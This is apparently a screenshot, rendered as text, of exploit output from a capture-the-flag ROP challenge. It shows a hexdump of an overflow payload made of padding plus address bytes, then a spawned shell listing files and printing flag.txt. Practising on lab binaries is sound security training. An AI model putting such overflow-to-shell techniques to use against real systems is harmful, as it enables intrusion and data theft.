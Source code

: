 ```language-bash
    00000000  4d 65 6d 65  4d 65 6d 65  4d 65 6d 65  4d 65 6d 65  │Meme│Meme│Meme│Meme│
    *
    00000130  4d 65 6d 65  4d 65 6d 65  00 b1 98 67  90 5d c9 70  │Meme│Meme│···g│·]·p│
    00000140  4d 65 6d 65                                         │Meme││
    00000144
MemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMemeMeme\x00\xb1\x98g\x90]�pMeme$ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x1d bytes:
    'flag.txt\n'
    'tutorial\n'
    'tutorial.c\n'
flag.txt
tutorial
tutorial.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x2d bytes:
    'FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}\n'
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
$

```
